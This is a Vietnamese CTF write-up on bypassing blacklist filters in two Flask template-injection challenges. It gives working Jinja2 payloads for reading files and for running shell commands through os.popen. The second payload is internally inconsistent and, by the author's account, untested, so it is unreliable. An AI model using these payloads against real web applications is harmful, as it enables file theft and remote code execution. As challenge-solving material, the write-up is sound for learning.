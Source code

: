 # Web-vkl CTF
## vkl ssti1
### Dạng bài ssti1:
Source code:

```
from flask import Flask, render_template, render_template_string, request, abort
app = Flask(__name__)

@app.route("/")
def index():
    def filter(s):
        blacklist = ['class', 'attr', 'mro', 'base', 'request', 'session', 'add','+', 'config' , 'subclasses', 'cookies', 'headers','\'', '[', ']', '"', '{}']

        block = True
        for i in blacklist:
            if i in s.lower():
                block = False
                break
        return block
    if not request.args.get('name'):
        return open(__file__).read()
    elif filter(request.args.get('name')):
        name = request.args.get('name')
    else:
        name = 'cut dcmm'
    template = '''

    <div >
        <p>Hello, %s</p>
    </div>
    <!--flag in /flag.txt-->
''' % (name)
    return render_template_string(template)


if __name__ == "__main__":
    app.run(host='0.0.0.0', port=9999)
```
Nhìn vào source bài này thì mình thấy rất nhiều từ cần thiết đã bị filter, nên khả thi nhất lúc này là sử dụng:

```{{url_for.__globals__.__builtins__.open("filename").read()}}```

Nhưng ở đây có một vấn đề là ở đây cả `'` và `"` đều bị filter nên chúng ta không thể truyền được filename vào, mấu chốt của
của bài này là chúng ta phải giải quyết được chỗ này.

Trước tiên xác nhận xem flag có ở trong `/flag.txt` như tác giả nói hay không

```
{{url_for.__globals__.os.__dict__}}
```

![](img1.png)

Sử dụng `listdir()` để xem các file hiện tại:

```{{url_for.__globals__.os.__dict__.listdir()}}```

![](img2.png)

Vậy tác giả đã lừa chúng ta flag thực sự không nằm trong `/flag.txt` mà là `flag.txt`

Khi chúng ta truyền chuỗi vào thì `('a','b','c')|join` sẽ tương đương với `'abc'`

Nên tới đây mình sẽ sử dụng `chr` để chuyển về kí tự ascii sau đó dùng `join` để có được một chuỗi truyền vào.

Vậy chuỗi chúng ta truyền vào sẽ là: 

`(chr(102),chr(108),chr(97),chr(103),chr(46),chr(116),chr(120),chr(116))|join`

Nhưng ở đây có một lưu ý là để sử dụng `chr` thì chúng ta phải gọi được built-in function `chr` ra trước:

`{% set chr=url_for.__globals__.__builtins__.chr %}`

Final payload:

```{% set chr=url_for.__globals__.__builtins__.chr %}{{url_for.__globals__.__builtins__.open((chr(102),chr(108),chr(97),chr(103),chr(46),chr(116),chr(120),chr(116))|join).read()}}```

### Flag: web-vkl{filter_is_not_enough}

## vkl ssti2
### Dạng bài: ssti
Source code:
```

from flask import Flask, render_template, render_template_string, request, abort
app = Flask(__name__)

@app.route("/")
def index():
    def filter(s):
        blacklist = ['class', 'builtins','attr', 'mro', 'base', 'request', 'session', 'add','+', 'config' , 'subclasses', 'cookies', 'headers','\'', '[', ']', '"', '{}']

        block = True
        for i in blacklist:
            if i in s.lower():
                block = False
                break
        return block
    if not request.args.get('name'):
        return open(__file__).read()
    elif filter(request.args.get('name')):
        name = request.args.get('name')
    else:
        name = 'cut dcmm'
    template = '''

    <div >
        <p>Hello, %s</p>
    </div>
    <!-- -->
''' % (name)
    return render_template_string(template)


if __name__ == "__main__":
    app.run(host='0.0.0.0', port=9998)

```
Về cơ bản thì source code bài này giống với bài ssti 1 chỉ có một thay đổi là bị filter thêm chữ `builtins`.

Với bài này khi mình lên để viết writeup thì dường như server có vấn đề, mình không thể truyền param đi nên mình không ghi cụ thể chính xác được. 

Nhưng mình sẽ nói sơ về ý tưởng thực hiện:

Mình sử dụng payload để liệt kê ra tất cả các method và dễ dàng tìm chính xác vị trí của `request`
```
{% for i in url_for.__globa""ls__ %}{{i}}{% endfor %}

```
Ví dụ vị trí của method là 7 thì mình sẽ sử dụng:

`{% set req=url_for.__globals__.pop((url_for.__globals__|list).__getitem__(7)) %}`

`getitem` được sử dụng cho list nên đó là lí do mình chuyển `url_for.__globals__` thành list.

Payload cuối cùng:

```
{%set a=url_for.__globals__.pop((url_for.__globals__|list).__getitem__(7)) %}{{url_for.__globals__.os.__dict__.popen(req.args.command).read()}}&command=cat /abc/flag.txt
```
Với bài này theo mình nhớ thì flag không nằm trong thư mục hiện tại, chuỗi mình truyền vào trong command chỉ là một ví dụ, các bạn có thể truyền v
các command thích hợp để tìm được vị trí của flag.


## End.
### Thank you for being here!
